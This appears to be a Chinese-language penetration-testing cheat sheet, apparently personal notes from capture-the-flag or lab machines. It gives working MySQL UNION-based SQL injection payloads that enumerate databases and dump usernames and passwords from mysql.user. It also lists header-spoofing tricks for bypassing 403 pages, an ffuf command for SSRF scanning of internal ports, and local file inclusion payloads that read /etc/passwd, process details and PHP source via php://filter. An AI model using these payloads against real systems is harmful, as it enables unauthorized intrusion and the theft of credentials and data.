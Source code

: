 ### Mysql 显示注入
如果注入包含内容显示，可以通过以下命令去寻找内容，需要注意type需要对齐,例如str对应str, int 对应int
1. 先找出所有databse名称
UNION SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- // 
2. 列出某个特定的database里存在的table
UNION SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- // 
3. 列出table里的列内容
UNION SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- // 
4. 列出列的内容
UNION SELECT 1, star, mini, 4, 5, 6, 7 from hotel.room; -- // 

或者是寻找mysql表格内的内容
```
UNION SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- //
UNION SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user';-- // 
SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- // 
```

## 403 bypass
可以尝试的header
· X-Originating-IP: 127.0.0.1
· X-Forwarded-For: 127.0.0.1
· X-Forwarded: 127.0.0.1
· Forwarded-For: 127.0.0.1
· X-Remote-IP: 127.0.0.1
· X-Remote-Addr: 127.0.0.1
· X-ProxyUser-Ip: 127.0.0.1
· X-Original-URL: 127.0.0.1
· Client-IP: 127.0.0.1
· True-Client-IP: 127.0.0.1
· Cluster-Client-IP: 127.0.0.1
· X-ProxyUser-Ip: 127.0.0.1
· Host: localhost



## Brute Force
如果弱口令没有办法登录，尝试看看有没有什么特别的用户信息，然后用cupp去生成一个用户可能的密码试试
https://github.com/Mebus/cupp


## SSRF
如果有URL可以输入且get了文件，但是跑的是php以外的架构的话，考虑本地服务嗅探
http://127.0.01:$PORT

ffuf -u http://editorial.htb/upload-cover -request request2.txt -w <( seq 0 65535) -ac

## LFI
可以试试读取信息
GET /meteor/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../../../var/www/html/backup.php
或者是（如果路径遍历无效，说明有可能是绝对路径)
/index.php?lang=/etc/passwd
以及 /proc/self/cmdline
如果还想要读取一些系统代码的信息，可以试试system下的文件, 这里可能会存一些东西
/etc/systemd/system/aria2.service
